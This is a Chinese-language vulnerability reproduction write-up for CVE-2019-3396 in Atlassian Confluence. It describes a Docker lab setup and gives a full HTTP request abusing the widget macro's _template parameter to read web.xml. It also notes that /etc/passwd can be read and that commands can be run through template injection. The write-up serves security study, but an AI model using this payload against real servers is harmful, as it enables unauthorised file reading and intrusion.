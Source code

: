 # CVE-2019-3396

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Atlassian Confluence 路径遍历和命令执行漏洞

## 0x01 产品简介

Confluence 是由澳大利亚软件公司 Atlassian 开发的基于 Web 的企业 Wiki。

在 Atlassian Confluence 版本 6.14.2 之前存在一个未经授权的目录遍历漏洞，攻击者可以使用 Velocity 模板注入读取任意文件或执行任意命令。

## 0x02 影响范围

```
Atlassian Confluence 版本 6.14.2 之前
```

## 0x03 环境搭建

通过执行以下命令启动 Confluence Server 6.10.2。

```
docker compose up -d
```

环境启动后，访问 [http://your-ip:8090](http://your-ip:8090/)，您将看到安装指南，选择“试用安装”，然后会要求您填写许可证密钥。您应该向 Atlassian 申请 Confluence Server 测试证书：

![image.png](image/image.png)

然后只需单击“下一步”进行安装。小内存VPS这一步可能无法安装或需要很长时间（建议使用4G以上内存的机器进行安装和测试），请耐心等待。

如果系统提示填写集群节点，可以使用 /home/confluence 填充路径。

![image.png](image/image%201.png)

可能会要求您填写数据库账号密码，选择postgres数据库，地址为db，账号密码为postgres：

![image.png](image/image%202.png)

## 0x04 漏洞复现

过发送以下数据包来读取文件web.xml。

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId": "786458", "macro":{"name": "widget", "body":"", "params":{"url": "https://www.viddler.com/v/23464dc6", "width": "1000"," height": "1000","_template":". /web.xml"}}}
```

![image.png](image/image%203.png)

在 6.12 之前的 Confluence 没有限制文件读取的协议和路径，我们可以使用 file:///etc/passwd 来读取文件，或者 https://... 来加载远程文件。

如果文件是 Velocity 模板，我们可以通过模板注入 （SSTI） 执行任意命令：

![image.png](image/image%204.png)